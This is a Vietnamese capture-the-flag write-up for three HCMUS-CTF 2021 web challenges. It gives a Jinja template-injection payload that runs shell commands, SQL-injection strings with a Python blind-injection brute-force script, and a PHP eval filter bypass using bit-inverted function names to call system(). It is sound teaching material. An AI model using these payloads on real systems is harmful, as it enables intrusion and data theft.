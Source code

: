 # WRITE-UP-HCMUS-CTF-2021
## 1. Nothingness
+ Lỗi: SSTI
+ Payload: <pre><code>{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}</code></pre>
+ ls ra 1 thư mục nữa thì thấy có file 'flag_HKOOS2lrdD'
+ Submit flag thôi: HCMUS-CTF{404_teMpl4t3_1njEctIon}

## 2. EasyLogin
+ Tìm cách đăng nhập admin. Thử <pre><code>admin' or 1=1--</code></pre> Thì ta nhận được được Nothing special
+ Order by thì biết được là SQLite3 và bảng này gồm 2 cột
+ Thử ``union select 'admin', 2`` thì trang web trả về một tấm hình
+ Thử ``admin' or 1=2--`` thì nó vẫn ra tấm hình ban nãy -> Nếu đúng thì 'Nothing special' sai thì 'Well done' -> Burteforce
+ Brute tên bảng: 
<pre><code>
tbl_name = 'CREATE TABLE flagtablewithrandomname'
tbl = 'users, flagtablewithrandomname1'
sql = 'CREATE TABLE user(username, passw'
sql2 = ''
flag = ''
for i in range(1,50):
    for j in range(32,127):
        print(f"i\t\t{i}\t\t{j}",end='\r')
        resp = requests.post(url, data={
            "username": f"admin' or (select substr(flag,{i},1) FROM flagtablewithrandomname)=char({j})--",
            "passwd": "guest"
        })
        # print(resp.text)
        if "Nothing" in resp.text:
            flag += chr(j)
            print(f"tbl_name = {flag}")
            break 
</code></pre>
May mắn là tìm ra ngay flag lun:
+ ![image](https://user-images.githubusercontent.com/58381595/119288538-eccbb980-bc72-11eb-8b1f-e5d5e9401237.png)

# 3. SimpleCalculator
+ Sử dụng PHP eval() để thực hiện lệnh dc nhập vào -> WAF bypass
+ Chặn quote, alphabet và giới hạn kí tự-> sửa dụng '~' để đảo bit
+ ![image](https://user-images.githubusercontent.com/58381595/119289646-2a314680-bc75-11eb-9e46-b204ac314818.png)
+ Thử đảo phpinfo thành ' %8F%97%8F%96%91%99%90 ' rồi gửi ``(~%8F%97%8F%96%91%99%90)()`` Thì quả thật lệnh phpinfo() đã được thực hiện
+ system('ls -l') xem có gì nào : ``(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D2%93)``
> Warning: Use of undefined constant ���ғ - assumed '���ғ' (this will throw an Error in a future version of PHP) in /var/www/html/index.php(21) : eval()'d code on line 1
total 4 -rwxrw-r--. 1 www-data root 856 May 18 11:52 index.php drwxr-xr-x. 1 www-data root 23 May 18 11:52 static drwxr-xr-x. 1 www-data root 23 May 18 11:52 static
+ Ra ngoài gốc lun xem có gì
> Warning: Use of undefined constant ���ғ�� - assumed '���ғ��' (this will throw an Error in a future version of PHP) in /var/www/html/index.php(21) : eval()'d code on line 1
total 4 drwxr-xr-x. 1 root root 28 May 12 12:48 bin drwxr-xr-x. 2 root root 6 Mar 19 23:44 boot drwxr-xr-x. 5 root root 360 May 23 13:13 dev drwxr-xr-x. 1 root root 66 May 23 13:13 etc -rwxrw-r--. 1 root root 25 May 18 11:52 fl4ggggH3reeeeeeeeeee drwxr-xr-x. 2 root root 6 Mar 19 23:44 home drwxr-xr-x. 1 root root 21 May 12 12:48 lib drwxr-xr-x. 2 root root 34 May 11 00:00 lib64 drwxr-xr-x. 2 root root 6 May 11 00:00 media drwxr-xr-x. 2 root root 6 May 11 00:00 mnt drwxr-xr-x. 2 root root 6 May 11 00:00 opt dr-xr-xr-x. 580 root root 0 May 23 13:13 proc drwx------. 1 root root 6 May 12 13:41 root drwxr-xr-x. 1 root root 36 May 23 13:13 run drwxr-xr-x. 1 root root 20 May 12 12:48 sbin drwxr-xr-x. 2 root root 6 May 11 00:00 srv dr-xr-xr-x. 13 root root 0 May 11 11:41 sys drwxrwxrwt. 1 root root 6 May 12 13:41 tmp drwxr-xr-x. 1 root root 19 May 11 00:00 usr drwxr-xr-x. 1 root root 17 May 12 12:43 var drwxr-xr-x. 1 root root 17 May 12 12:43 var
+ system('nl /*') -> Flag: HCMUS-CTF{d4ngErous_eVal}

